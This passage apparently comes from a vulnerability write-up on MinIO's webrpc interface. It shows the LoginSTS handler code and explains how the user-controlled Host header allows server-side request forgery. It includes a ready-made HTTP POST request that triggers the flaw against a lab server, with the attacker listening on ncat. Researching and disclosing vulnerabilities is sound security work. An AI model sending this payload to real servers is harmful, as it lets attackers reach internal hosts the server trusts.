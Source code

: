 This blocks the first two bypass methods, let alone blasting, which is usually only a means when there is no way. 

There is no breakthrough in authentication, so we can see which RPC interfaces do not have permission verification.

A interface was quickly found, `LoginSTS`. 

The code simplifies it as follows:

```
// LoginSTS - STS user login handler.
func (web *webAPIHandlers) LoginSTS(r *http.Request, args *LoginSTSArgs, reply *LoginRep) error {
    ctx := newWebContext(r, args, "WebLoginSTS")

    v := url.Values{}
    v.Set("Action", webIdentity)
    v.Set("WebIdentityToken", args.Token)
    v.Set("Version", stsAPIVersion)

    scheme := "http"
    // ...

    u := &url.URL{
        Scheme: scheme,
        Host:   r.Host,
    }

    u.RawQuery = v.Encode()
    req, err := http.NewRequest(http.MethodPost, u.String(), nil)
    // ...
}
```

No authentication bypass problem was found, but another interesting problem was found. 

What's wrong with this process?

Because the request header is user-controlled, any host can be constructed here, and then an SSRF vulnerability can be constructed.

Let's test it out and send the following request to `https://192.168.227.131:9000`, where the value of Host is the port that I open local ncat (`192.168.1.142:4444`):

```
POST /minio/webrpc HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Content-Type: application/json
Content-Length: 80

{"id":1,"jsonrpc":"2.0","params":{"token":  "Test"},"method":"web.LoginSTS"}
```

Received the request successfully:
